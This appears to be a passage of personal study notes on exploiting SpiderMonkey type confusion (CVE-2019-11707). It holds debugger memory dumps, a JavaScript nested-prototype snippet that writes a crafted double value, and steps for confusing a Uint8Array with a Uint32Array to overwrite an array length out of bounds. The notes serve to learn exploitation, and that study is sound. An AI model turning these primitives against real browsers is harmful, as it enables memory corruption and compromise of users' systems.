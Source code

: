 ```
00000285`024980d8 fffe02850248e190 
00000285`024980e0 fffe02850248e1c0 

ObjectAddress -> Group -> Shape -> Element -> Value
00000285`0248e160 000002850248a880 
00000285`0248e168 00000285024b18a8 
00000285`0248e170 0000000000000000 
00000285`0248e178 00007ff6c530d2e8 js!emptyElementsHeader+0x10
00000285`0248e180 fff8800000000000	---> Value we looking for!

  
```

## Nested prototypes
```

var p = {};
p.__proto__ = [{a: 0}, {a: 1}, {a: 2}];

//BEBF414141414141
p[0] = -1.8629373288622089e-06;

//p[0] = 2261634.5098039214;
v4.__proto__ = p;

```

v4 is a prototype of p. 

p is a prototype of [{a: 0}, {a: 1}, {a: 2}].


# Question 4: Looks like we have a type confusion between object and double pointer, how then to proceed??

Following along this tutorial (https://blog.bi0s.in/2019/08/18/Pwn/Browser-Exploitation/cve-2019-11707-writeup/),
I also tried to do a Type Confusion between an Uint8 and Uint32 Array.

Since Uint8Array has been confused to be a Uint32Array, we can actually index out of bounds of the usual limit of an UInt8Array.

By some trial and error and looking at the memory, the UInt32Array is located just 0x60 away from Uint8Array.

So if we just set u8junk[18] to a large value, we can overwrite the length of u32junk.

## Structure layout of Uint8Array and Uint32Array:
```
js> objectAddress(u8junk)
"000001EE7E701B00"

js> objectAddress(u32junk)
"000001EE7E701B60"

u8junk:
000001ee`7e701b00 000001ee7ef7adf0 
000001ee`7e701b08 000001ee7efb1920 
000001ee`7e701b10 0000000000000000 
000001ee`7e701b18 00007ff6a71ddac0 js!emptyElementsHeader+0x10
000001ee`7e701b20 fffa000000000000 
000001ee`7e701b28 fff8800000000020 ---> Length 
000001ee`7e701b30 fff8800000000000 
000001ee`7e701b38 000001ee7e701b40 
```